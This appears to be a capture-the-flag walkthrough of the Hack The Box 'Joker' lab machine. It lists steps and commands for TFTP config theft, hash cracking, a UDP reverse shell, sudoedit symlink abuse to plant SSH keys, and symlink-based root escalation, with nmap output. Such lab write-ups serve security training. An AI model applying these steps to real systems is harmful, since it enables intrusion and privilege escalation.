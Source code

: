 # HTB - Joker  10.10.10.21


- Linux 4.8.0-52-generic #55-Ubuntu SMP Fri Apr 28 13:28:50 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.10 

- Find squid proxy on port 3128
- Use tftp to get /etc/squid/squid.conf 
- John the password hash stored in squid.conf => kalamari:ihateseafood
- Use nikto on proxy with auth to find /console
- Use console to get reverse shell
  - TCP out are iptables filtered
  - reverseshell in UDP
- nc as user werkzeug
  - sudo -l => sudoedit_follow, !sudoedit_checkdir, (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
  - generate a new ssh_key
  - ln -s /home/alekos/.ssh/authorized_keys layout.html
  - sudoedit -u alekos /var/www/testing/yolo/layout.html
- ssh alekos@10.10.10.21 -i joker_alekos_rsa
  - user.txt
  - A root process backup  ~/development in ~/backup/xxx.targ.gz
  - create a symlink /root ~/development and wait for /root to be backuped


## Writeup

- https://reboare.github.io/hackthebox/htb-joker.html
- https://www.absolomb.com/2017-12-30-HackTheBox-Joker-Writeup/



## Nmap TCP
```
# nmap -sC -sV -A 10.10.10.21 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 17:48 CEST
Nmap scan report for 10.10.10.21
Host is up (0.032s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

## Nmap UDP
```
nmap -sU  10.10.10.21
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 19:31 CEST
Nmap scan report for 10.10.10.21
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE
69/udp   open|filtered tftp
5355/udp open|filtered llmnr
```
